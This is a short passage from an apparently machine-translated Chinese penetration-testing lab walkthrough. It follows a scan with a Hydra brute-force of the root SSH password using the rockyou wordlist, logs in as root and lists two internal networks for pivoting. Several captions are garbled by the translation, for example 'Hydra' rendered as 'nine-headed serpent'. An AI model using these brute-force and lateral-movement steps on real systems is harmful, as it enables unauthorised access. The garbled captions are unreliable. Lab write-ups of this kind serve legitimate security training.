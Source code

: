 *图:Nmap 扫描(帮助程序)*

*端口 22 (ssh)是打开的。我们在攻击者的机器上安装了 hydra 和一个 rockyou.txt 文件，暴力强制 ssh 登录。*

```
*hydra -l root -P /home/rock.txt ssh://172.16.100.11*
```

*![](img/5df4eb561a11ecd89bec67f9ad098830.png)*

*图:九头蛇的暴力*

*我们获得了用户 **root** 的密码。让我们尝试使用这个凭证。我们现在是在**的助手**机器里。*

```
*ssh root@172.16.100.11*
```

*![](img/04523fdd9b9ff7c959574adb042f46dd.png)*

**图:宋承宪登录**

*可能会有其他新的主机，所以我将继续进一步扫描，以收集新的主机和端口。*

****ifconfig*** 显示 ***助手*** 机器是两个网络家族的一部分。*

```
***1\. 172.16.100.11
2\. 172.16.101.11***
```
